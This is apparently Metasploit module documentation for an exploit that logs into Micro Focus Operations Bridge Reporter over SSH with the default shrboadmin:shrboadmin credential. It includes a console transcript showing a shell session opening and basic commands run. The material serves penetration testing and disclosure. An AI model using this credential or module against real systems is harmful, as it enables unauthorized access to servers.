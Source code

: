 ## Vulnerable Application

This module abuses a known default password on Micro Focus Operations Bridge Reporter. The 'shrboadmin' user, installed
by default by the product has the password of 'shrboadmin', and allows an attacker to login to the server via SSH. This
module has been tested with Micro Focus Operations Bridge Manager 10.40. Earlier versions are most likely affected too,
but have not been tested with this module. Note that this is only exploitable in Linux installations.

## Verification Steps

1. Setup RHOST and run it!

## Scenarios

### Micro Focus Operations Bridge Manager 10.40

```
msf > use exploit/linux/ssh/microfocus_obr_shrboadmin
msf exploit(linux/ssh/microfocus_obr_shrboadmin) > set rhosts 10.0.0.100
rhosts => 10.0.0.100
msf exploit(linux/ssh/microfocus_obr_shrboadmin) > run

[*] 10.0.0.100:22 - Attempt to login to the server...
[+] 10.0.0.100:22 - Login Successful (shrboadmin:shrboadmin)
[*] Found shell.
[*] Command shell session 1 opened (10.0.0.1:35023 -> 10.0.0.100:22) at 2021-04-23 14:44:09 +0700

whoami
shrboadmin
id
uid=1001(shrboadmin) gid=1001(shrboadmin) groups=1001(shrboadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux centos7 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
